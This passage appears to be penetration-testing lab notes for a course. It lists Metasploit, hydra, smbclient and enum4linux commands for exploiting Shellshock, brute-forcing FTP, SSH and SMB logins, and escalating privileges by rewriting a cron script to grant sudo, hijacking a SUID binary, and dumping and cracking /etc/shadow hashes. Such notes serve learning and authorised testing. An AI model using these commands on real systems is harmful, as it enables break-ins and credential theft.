 				- `search shellshock use exploit/multi/http/apache_mod_cgi_bash_env_exec set RHOSTS 192.173.104.3 set TARGETURI /gettime.cgi exploit`
			- FTP
				- - `nmap -sV 192.209.45.3`
				- Bruteforce `hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 192.209.45.3 -t 4 ftp`
				- `ftp 192.209.45.3`
			- SSH
				- - `nmap -sV 192.63.218.3`
				- Bruteforce 
					- `hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/common_passwords.txt 192.63.218.3 -t 4 ssh`
				- `ssh [sysadmin@192.63.218.3](<mailto:sysadmin@192.63.218.3>)`
				- `find / -name "flag”`
				- `cat /flag`
			- Samba
				- - `nmap -sV 192.34.128.3`
				- Bruteforce 
					- `hydra -l admin -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 192.34.128.3 smb`
			- `smbmap -H 192.34.128.3 -u admin -p password1`
			- `smbclient -L 192.34.128.3 -U admin`
			- `smbclient [//192.34.128.3/shawn](<https://192.34.128.3/shawn>) -U admin`
			- `smbclient [//192.34.128.3/nancy](<https://192.34.128.3/nancy>) -U admin`
			- `enum4linux -a 192.34.128.3`
			- `enum4linux -a -u admin -p password1 192.34.128.3`
		- Privilege escelation
			- Cron Jobs
				- - `whoami groups student cat /etc/passwd crontab -l`
				- `cd /`
				- `grep -rnw /usr -e "/home/student/message"`
				- `grep -rnw /usr/local/share/copy.sh:2:cp /home/student/message /tmp/message`
				- `ls -al /usr/local/share/copy.sh`
				- `printf '#!/bin/bash\\necho "student ALL=NOPASSWD:ALL" >> /etc/sudoers' > /usr/local/share/copy.sh`
				- `cat /usr/local/share/copy.sh`
				- `echo "student ALL=NOPASSWD:ALL" >> /etc/sudoers`
				- `sudo -l`
				- `sudo su`
			- SUID
				- - `pwd`
				- `la -al`
				- identify that welcome file have s binaries specifies
				- `find welcome`
				- `strings welcome`
				- `rm greetings cp /bin/bash greetings ./welcome`
				- `cd /root`
				- `cat flag`
			- Password dumping
				- Upgrade the sessions to a `meterpreter` session
				- `sessions -u 1`
				- `sessions 2`
				- `cat /etc/shadow`
				- Gather Linux Password hashes with `Metasploit`
				- `search hashdump use post/linux/gather/hashdump set SESSION 2 run`
				- `search crack use auxiliary/analyze/crack_linux set SHA512 true run`
- Exploitation
	- Windows Exploitation
		-  **IIS/FTP**
		    - `nmap -sV -sC -p21,80 10.2.29.246`
		    - `ftp 10.2.29.246` - anonymous login failed
		    - `hydra -L /usr/share/wordlists/metasploit/unix_users.txt -P /usr/share/wordlists/metasploit/unix_passwords.txt 10.2.29.246 ftp`
		    - `hydra -l vagrant -P /usr/share/wordlists/metasploit/unix_users.txt 10.2.29.246 ftp -I`